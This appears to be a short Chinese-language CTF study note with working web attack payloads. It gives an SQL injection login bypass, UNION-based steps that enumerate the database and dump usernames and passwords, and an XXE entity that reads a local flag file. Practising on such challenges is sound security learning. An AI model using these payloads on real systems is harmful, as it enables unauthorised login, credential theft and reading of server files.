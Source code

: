 账号:admin' or 1=1#

密码:1

输入框的#，直接使用hackbar地址栏，需将#进行URL编码，即替换为%23

1,爆字段

check.php?username=admin ' order by 1 %23&password=1
check.php?username=admin ' order by 2 %23&password=1
check.php?username=admin ' order by 3 %23&password=1

看有几个字段，

看回显

1' union select 1,2,3 #

爆数据库

1' union select 1,database(),version() #

爆数据库的表

只有一个数据库

1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #

有多个数据库，选择一个数据库

1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='DATABASE'

### 爆出表的列

1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='AAA' #

爆内容

username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1

## xxe漏洞

<!DOCTYPE root[

<!ENTITY admin SYSTEM "file:///flag">

### ]>

<root>

<username>&admin;</username>

<password>2333</password>

</root>

怎么说呢，xxe就是DTD中可以执行外部的文件
